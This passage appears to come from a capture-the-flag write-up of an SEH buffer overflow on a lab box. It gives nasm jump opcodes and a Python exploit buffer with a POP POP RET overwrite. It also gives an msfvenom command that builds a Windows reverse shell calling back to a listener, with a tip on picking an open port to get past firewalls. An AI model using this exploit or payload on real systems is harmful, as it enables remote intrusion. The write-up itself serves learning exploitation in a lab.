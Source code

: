 Cool, and looks like we have 4 bytes of space to play with before our POP POP RET address. Which is more than enough for some JMP SHORTs, we can look for these codes using ```msf-nasm_shell```

Doing some quick maths (and some trial and error cause I can't actually count) we want two Opcodes one jmp short to go -5 and one regular jmp to go -782 to the start of our payload.
```
nasm > JMP SHORT -5
00000000  EBF9              jmp short 0xfffffffb
nasm > JMP -782
00000000  E9EDFCFFFF        jmp 0xfffffcf2
nasm > 

```

Add these two our code as such,

```
        CRASH = b"\x41" * 783
        JMP = b"\xE9\xED\xFC\xFF\xFF"
        SRTJMP = b"\xEB\xF9\x90\x90"
        EIP = b"\xBA\x59\x58\x34"
        FILLER =b"\x43" * 128
        TERMINATE = b"\x00"
        buffer = CRASH + JMP + SRTJMP + EIP + FILLER + TERMINATE

```

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-SEHTHEJUMPS.png)
![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-SEHTOPofThePayload.png)

Man look at how tight that is =P

So now that we know we have effectively hijacked the execution flow into a spot where our shellcode can live and I'm fairly confident with my counting skills though I've added a print statement to measure the size of the buffer as well lol. Now We can launch the server independently and generate our shellcode via ```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.165 LPORT=1985 -f py -v SHELL -b "\x00"``` notice how I'm using the same port as the service. There's a higher chance of recieving a reverseshell back if you use a port that's open on the target system because of things like firewall rules. Now obviously this isn't always the case but it's a more logical way of going about things than randomly using any port.
